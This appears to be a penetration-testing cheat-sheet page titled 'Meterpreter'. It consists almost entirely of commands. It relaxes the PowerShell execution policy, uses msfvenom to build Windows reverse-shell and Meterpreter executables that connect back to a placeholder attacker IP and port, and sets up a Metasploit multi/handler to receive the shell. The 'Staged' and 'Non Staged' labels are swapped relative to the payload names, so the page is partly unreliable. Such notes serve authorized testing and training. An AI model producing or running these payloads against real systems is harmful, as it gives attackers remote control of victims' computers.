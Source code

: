 ```yaml
---
title: Meterpreter
layout: default
parent: General Usage
---
```


PowerShell allow ps1:

```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
```

* Regular Non-Staged

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

* Meterpreter Staged

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

* Meterpreter Non Staged

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

To receive the incoming shell (change the set payload to the one you set):

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter_reverse_https
set lhost IP
set lport PORT
exploit
```
